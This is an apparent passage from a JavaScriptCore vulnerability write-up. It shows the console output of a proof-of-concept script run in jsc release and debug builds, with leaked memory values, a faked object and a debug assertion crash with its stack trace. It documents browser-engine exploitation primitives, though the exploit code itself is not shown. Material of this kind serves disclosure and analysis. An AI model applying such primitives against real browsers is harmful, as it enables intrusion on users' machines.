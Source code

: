 ***when you run the release build you should see:***

```
lucy:bin akayn$ ./jsc ~/poc.js
typeof x:number
leaked memory: 4.628987547775967e-299
typeof x:number
leaked memory: 9.719576448981733e+204
object
success
INVALID                       <---- the output for
                                  describe(fake_object)
lucy:bin akayn$
```

***and in the debug build:***

```
lucy:bin akayn$ ./jsc ~/poc.js
typeof x:number
leaked memory: 4.6289875477759656e-299
typeof x:number
leaked memory: 7.186796064232505e-68
typeof x:number
leaked memory: -0.0000017285360272012563
object
success
INVALID
ASSERTION FAILED: value.isUndefinedOrNull()
.../Source/JavaScriptCore/bytecode/SpeculatedType.cpp(526) : JSC::SpeculatedType JSC::speculationFromValue(JSC::JSValue)
1   0x1091a3b79 WTFCrash
2   0x1041b1a80 WTF::BasicRawSentinelNode<Worker>::remove()
3   0x1058464d4 JSC::speculationFromValue(JSC::JSValue)
4   0x1056b7039 JSC::ValueProfileBase<1u>::computeUpdatedPrediction(JSC::ConcurrentJSLocker const&)
5   0x10572b8b5 JSC::CodeBlock::updateAllPredictionsAndCountLiveness(unsigned int&, unsigned int&)::$_11::operator()(JSC::ValueProfile&) const
6   0x10572f117 auto void JSC::CodeBlock::forEachValueProfile<JSC::CodeBlock::updateAllPredictionsAndCountLiveness(unsigned int&, unsigned int&)::$_11>(JSC::CodeBlock::updateAllPredictionsAndCountLiveness(unsigned int&, unsigned int&)::$_11 const&)::'lambda15'(JSC::CodeBlock::updateAllPredictionsAndCountLiveness(unsigned int&, unsigned int&)::$_11&)::operator()<JSC::OpCall::Metadata>(JSC::CodeBlock::updateAllPredictionsAndCountLiveness(unsigned int&, unsigned int&)::$_11&) const
7   0x10572c3b9 void JSC::MetadataTable::forEach<JSC::OpCall, void JSC::CodeBlock::forEachValueProfile<JSC::CodeBlock::updateAllPredictionsAndCountLiveness(unsigned int&, unsigned int&)::$_11>(JSC::CodeBlock::updateAllPredictionsAndCountLiveness(unsigned int&, unsigned int&)::$_11 const&)::'lambda15'(JSC::CodeBlock::updateAllPredictionsAndCountLiveness(unsigned int&, unsigned int&)::$_11&)>(void JSC::CodeBlock::forEachValueProfile<JSC::CodeBlock::updateAllPredictionsAndCountLiveness(unsigned int&, unsigned int&)::$_11>(JSC::CodeBlock::updateAllPredictionsAndCountLiveness(unsigned int&, unsigned int&)::$_11 const&)::'lambda15'(JSC::CodeBlock::updateAllPredictionsAndCountLiveness(unsigned int&, unsigned int&)::$_11&) const&)
8   0x1056aedca void JSC::CodeBlock::forEachValueProfile<JSC::CodeBlock::updateAllPredictionsAndCountLiveness(unsigned int&, unsigned int&)::$_11>(JSC::CodeBlock::updateAllPredictionsAndCountLiveness(unsigned int&, unsigned int&)::$_11 const&)
9   0x1056ade5b JSC::CodeBlock::updateAllPredictionsAndCountLiveness(unsigned int&, unsigned int&)
10  0x1056af5cc JSC::CodeBlock::updateAllValueProfilePredictions()
11  0x107c4ba71 JSC::LLInt::jitCompileAndSetHeuristics(JSC::CodeBlock*, JSC::ExecState*, unsigned int)
12  0x107c4b189 llint_loop_osr
13  0x107c42436 llint_entry
14  0x107c2f352 vmEntryToJavaScript
15  0x1078c3014 JSC::JITCode::execute(JSC::VM*, JSC::ProtoCallFrame*)
16  0x1078c0d8f JSC::Interpreter::executeProgram(JSC::SourceCode const&, JSC::ExecState*, JSC::JSObject*)
17  0x1081e26e7 JSC::evaluate(JSC::ExecState*, JSC::SourceCode const&, JSC::JSValue, WTF::NakedPtr<JSC::Exception>&)
```